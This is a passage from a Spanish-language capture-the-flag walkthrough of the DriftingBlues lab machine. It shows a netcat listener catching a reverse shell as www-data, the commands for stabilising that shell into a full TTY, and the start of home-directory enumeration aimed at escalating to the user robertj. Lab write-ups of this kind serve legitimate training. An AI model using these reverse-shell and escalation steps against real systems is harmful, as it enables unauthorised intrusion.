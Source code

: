 ```shell
nc -lvnp <PORT>
```

Y si enviamos el `payload`, volveremos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.28.19] from (UNKNOWN) [192.168.28.18] 53660
bash: cannot set terminal process group (512): Inappropriate ioctl for device
bash: no job control in this shell
www-data@driftingblues:/var/www/html$ whoami
whoami
www-data
```

Veremos que ha funcionado, por lo que tendremos que sanitizar la `shell`:

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user robertj

Si vamos a la `/home` y listamos en cuales podremos entrar veremos lo siguiente:

```
total 16
drwxr-xr-x  4 root    root    4096 Jan  4  2021 .
drwxr-xr-x 18 root    root    4096 Dec 17  2020 ..
drwx------  2 root    root    4096 Jan  4  2021 lost+found
drwxr-xr-x  3 robertj robertj 4096 Jan  7  2021 robertj
```

Vemos que podemos entrar en la carpeta de la `/home` del usuario `robertj` y si listamos dentro veremos lo siguiente:

```
total 16
drwxr-xr-x 3 robertj robertj 4096 Jan  7  2021 .
drwxr-xr-x 4 root    root    4096 Jan  4  2021 ..
drwx---rwx 2 robertj robertj 4096 Jan  4  2021 .ssh
-r-x------ 1 robertj robertj   33 Jan  7  2021 user.txt
```
